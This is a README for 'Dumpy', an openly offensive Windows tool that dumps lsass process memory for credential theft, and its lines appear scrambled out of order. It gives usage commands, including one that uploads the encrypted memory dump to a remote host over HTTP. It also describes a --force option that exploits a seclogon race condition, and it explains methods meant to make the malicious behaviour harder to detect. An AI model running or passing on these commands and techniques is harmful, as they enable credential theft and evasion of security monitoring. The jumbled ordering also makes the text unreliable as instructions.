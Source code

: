 		C:\Temp> dumpy.exe --decrypt -i xored.txt -o decrypted.txt -k secretKey
		C:\Temp> dumpy.exe --dump -k secretKey -u http://remotehost/upload
		C:\Temp> dumpy.exe --dump -k secretKey -u http://remotehost/upload --force
	                        through a race condition.
	        --decrypt       Decrypt a previously generated dump file.
	        --dump          Dump lsass.
	    -f, --force         Force seclogon's service to leak a lsass handle
	    -h, --help          Print this help menu.
	    -i, --input         Encrypted dump file [default: c:\temp\input.txt]
	    -k, --key           Encryption key [default: 1234abcd]
	    -o, --output        Destination path [default: c:\temp\output.txt]
	    -u, --upload        Upload URL
	C:\Users\User\Desktop\Dumpy\dumpy> cargo build --release
	C:\Users\User\Desktop\Dumpy\dumpy\target\x86_64-pc-windows-msvc\release> dumpy.exe -h
	Options:
	Usage: dumpy.exe --dump|--decrypt [options]

# Compilation 
# Description
# Usage
**Support added for both x86 and x64**.
- **decrypt**: This action allows to obtain the decrypted memory dump in the same format that tools like Mimikatz would expect. As arguments it expects the xored memory dump, the encryption key and the output file path. In case the xored file has been uploaded using HTTP, **it is required to perform a base64 decoding of the content before this decryption process**.
- **dump**: It will execute the main logic to dump the lsass. By default, it will store the result in a xored text file with a random name in the current directory. The option **upload** allows to send the memory content over HTTP to a remote host, avoiding the creation of the xored file on disk. I've used [this simple HTTP server](https://gist.github.com/smidgedy/1986e52bb33af829383eb858cb38775c) in order to handle the upload, but any other HTTP server that supports **multipart/form-data requests** will work.
Dumpy has two main actions:
If you want to force the leakage of a handle to the lsass through the race condition in seclogon's service described by [Antonio Cocomazzi](https://twitter.com/splinter_code) in [this post](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html), just use the option **force**:
In case that you want to compile the tool for a x86 system, modify the value of the option "target" in the file .cargo\config (e.g: target = "i686-pc-windows-msvc").
Just compile the code on `release` mode and execute it:
NTFS Transaction are used in order to xor the memory dump before storing it on disk or sending it throught HTTP.
This tool dynamically calls MiniDumpWriteDump to dump lsass memory content. This process is done without opening a new process handle to lsass and using [DInvoke_rs](https://github.com/Kudaes/DInvoke_rs) to make it harder to detect its malicious behaviour. In order to obtain a valid process handle without calling OpenProcess over lsass, all process handles in the system are analyzed using NtQuerySystemInformation, NtDuplicateObject, NtQueryObject and QueryFullProcessImageNameW.
